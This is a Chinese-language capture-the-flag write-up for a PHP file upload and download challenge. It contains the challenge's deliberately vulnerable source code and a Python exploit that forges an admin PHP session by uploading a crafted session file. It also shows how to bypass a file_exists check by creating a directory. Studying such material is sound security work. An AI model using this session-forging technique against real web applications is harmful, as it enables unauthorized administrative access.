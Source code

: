 - # 题目
	- 题目提供了上传和下载接口供用户上传和下载文件
	- 在此处绕过检测即可得到flag
		- ```php
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  ```
- # 思路
	- 通过伪造session构造假admin身份
	- 通过写入文件夹绕过`file_exists`并获得flag
- # 伪造session
	- 向session文件夹写入文件即可
	- 本体的session格式为`'\x08usernames:5:"admin";'`
		- 注意前方要加`\x08`，没有`|`
	- 伪造session并返回PHPSESSID的代码
	  collapsed:: true
		- ```python
		  def upload_evil_session():
		  
		      session = requests.session()
		      r = session.get(url)
		      sessid = r.cookies["PHPSESSID"]
		      r = base_post(url, data = {
		          "direction": "download",
		          "attr": ".",
		          "filename": "sess_" + sessid
		      }, files = {
		          "up_file": ("a.txt", "123")
		      })
		      with open("test.html", "wb") as f:
		          f.write(r.content)
		      # print("downloaded:", r.text.rpartition("code>")[2])
		      payload = r.text.rpartition("code>")[2].replace("guest", "admin")
		      print(enc_dec.urlencode(payload))
		      payload = '\x08usernames:5:"admin";'
		      sha256_payload = enc_dec.sha256_encode(payload)
		      # evil_session_filename = "sess_" + sha256_payload
		      r = base_post(url, data = {
		          "direction": "upload",
		          "attr": "."
		      }, files = {
		          "up_file": ("sess", payload)
		      })
		      return sha256_payload
		  ```
- # 绕过`file_exists`
	- 注意到可以创建任意文件夹
	- 我们只需要创建一个名为`success.txt`的文件夹即可
- # 题目源码以及分析
	- 代码以及初步分析
	  collapsed:: true
		- ```php
		  <?php
		  
		  error_reporting(0);
		  session_save_path("/var/babyctf/"); // 这里为session伪造提供了便利性
		  session_start();
		  
		  require_once "flag.php";
		  highlight_file(__FILE__);
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  
		  // filter_input默认不会做任何事情
		  // direction: upload|download
		  $direction = filter_input(INPUT_POST, 'direction');
		  // attr: 文件夹名
		  $attr = filter_input(INPUT_POST, 'attr');
		  
		  // 构造$dir_path
		  $dir_path = "/var/babyctf/".$attr;
		  if($attr==="private"){
		      $dir_path .= "/".$_SESSION['username'];
		  }
		  
		  
		  if($direction === "upload"){// 上传文件
		      try{
		          // 判断是否在上传
		          if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
		              throw new RuntimeException('invalid upload');
		          }
		          // 构造file_path: 
		          // filepath = {dir_path}/{name}_{hash}
		          $file_path = $dir_path."/".$_FILES['up_file']['name'];
		          $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 创建文件夹并移动文件
		          @mkdir($dir_path, 0700, TRUE);
		          if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
		              $upload_result = "uploaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $upload_result = $e->getMessage();
		      }
		  } elseif ($direction === "download") {
		      try{
		          // 获取filename并构造file_path
		          $filename = basename(filter_input(INPUT_POST, 'filename'));
		          $file_path = $dir_path."/".$filename;
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 检测需要下载的文件是否存在
		          if(!file_exists($file_path)) {
		              throw new RuntimeException('file not exist');
		          }
		          // 发送文件
		          header('Content-Type: application/force-download');
		          header('Content-Length: '.filesize($file_path));
		          header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
		          if(readfile($file_path)){
		              $download_result = "downloaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $download_result = $e->getMessage();
		      }
		      exit;
		  }
		  ?>
		  ```